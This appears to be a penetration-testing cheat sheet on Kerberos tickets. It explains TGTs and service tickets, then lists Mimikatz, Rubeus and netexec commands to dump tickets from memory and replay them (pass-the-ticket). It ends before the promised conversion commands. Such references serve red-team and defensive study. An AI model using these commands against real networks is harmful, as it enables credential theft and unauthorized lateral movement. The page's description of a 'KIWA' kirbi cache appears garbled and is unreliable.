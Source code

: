 # Kerberos - Tickets

Tickets are used to grant access to network resources. A ticket is a data structure that contains information about the user's identity, the network service or resource being accessed, and the permissions or privileges associated with that resource. Kerberos tickets have a limited lifetime and expire after a set period of time, typically 8 to 12 hours.

There are two types of tickets in Kerberos:

* **Ticket Granting Ticket** (TGT): The TGT is obtained by the user during the initial authentication process. It is used to request additional service tickets without requiring the user to re-enter their credentials. The TGT contains the user's identity, a timestamp, and an encryption of the user's secret key.

* **Service Ticket** (ST): The service ticket is used to access a specific network service or resource. The user presents the service ticket to the service or resource, which then uses the ticket to authenticate the user and grant access to the requested resource. The service ticket contains the user's identity, a timestamp, and an encryption of the service's secret key.

## Dump Kerberos Tickets

* Mimikatz: `sekurlsa::tickets /export`
* Rubeus

  ```ps1
  # List available tickets
  Rubeus.exe triage

  # Dump one ticket, the output is in Kirbi format
  Rubeus.exe dump /luid:0x12d1f7
  ```

## Replay Kerberos Tickets

* Mimikatz: `mimikatz.exe "kerberos::ptc C:\temp\TGT_Administrator@lab.local.ccache"`
* netexec: `KRB5CCNAME=/tmp/administrator.ccache netexec smb 10.10.10 -u user --use-kcache`

## Convert Kerberos Tickets

In the Kerberos authentication protocol, ccache and kirbi are two types of Kerberos credential caches that are used to store Kerberos tickets.

* A credential cache, or `"ccache"` is a temporary storage area for Kerberos tickets that are obtained during the authentication process. The ccache contains the user's authentication credentials and is used to access network resources without having to re-enter the user's credentials for each request.

* The Kerberos Integrated Windows Authentication (KIWA) protocol used by Microsoft Windows systems also makes use of a credential cache called a `"kirbi"` cache. The kirbi cache is similar to the ccache used by standard Kerberos implementations, but with some differences in the way it is structured and managed.

While both caches serve the same basic purpose of storing Kerberos tickets to enable efficient access to network resources, they differ in format and structure. You can convert them easily using:
